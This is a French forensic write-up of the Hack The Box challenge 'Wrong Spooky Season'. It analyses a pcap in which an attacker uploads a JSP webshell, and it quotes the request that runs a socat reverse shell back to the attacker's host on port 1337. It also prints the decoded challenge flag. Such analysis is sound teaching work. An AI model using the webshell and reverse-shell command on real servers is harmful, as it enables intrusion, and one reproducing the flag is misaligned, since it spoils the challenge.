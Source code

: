 ```yaml
---
title: \[FR\] HTB - Wrong Spooky Season
published: true
---
```

[HTB - Wrong Spooky Season](https://app.hackthebox.com/challenges/wrong-spooky-season)
Catégorie : Forensic

Enoncé : "I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did."

# Introduction
Le challenge se présente sous un fichier pcap contenant le traffic réseau où s'est déroulée une cyberattaque. Notre objectif est d'enquêter sur le déroulement de l'attaque.

Après avoir ouvert le fichier pcap avec wireshark, on peut constater que les trames sont issues des protocols http et tcp.

![](/assets/HTB_Wrong_Spooky_Season/overview.png)

# Les trames http

L'ip de l'attaquant serait 192.168.1.180 et l'ip du serveur ciblé st 192.168.1.166.

En observant les trames http, nous voit que l'attaquant a upload via des requêtes POST un webshell sur le serveur cible et a établi par la suite un reverse shell en y injectant une commande socat.
```
GET /e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```
Remarque : Notons l'user-agent python-requests/2.28.1, on peut émettre l'hypothèse que l'attaquant a crée un exploit pour exploiter le serveur 192.168.1.166

![](/assets/HTB_Wrong_Spooky_Season/http_traffic.png)

D'après la commande exécutée via la requête GET, le port écouté par l'attaquant serait le port 1337.
La connectant est établie en tcp, donc on va filtrer sur le port 1337 en tcp.

# Les trames tcp
![](/assets/HTB_Wrong_Spooky_Season/tcp_traffic.png)

Etant donné que les échanges à travers le reverse shell ne sont pas chiffré, on peut directement suivre toute la conversation  entre l'attaquant et sa cible. (onglet 'statistic' -> 'conversation' -> onglet 'TCP 1' -> 'Follow Stream' )

![](/assets/HTB_Wrong_Spooky_Season/conv_tcp.png)

On constate qu'à travers une commande, l'attaquant reverse les caractères de la chaîne `==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS`. Cette chaîne doit contenir le flag du challenge si on la met au bon format :

```
┌──(kali㉿kali)-[~]
└─$ echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev
SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==
# Ok ça ressemble à du base64, on va décoder ça!
┌──(kali㉿kali)-[~]
└─$ echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}

```

Flag : HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}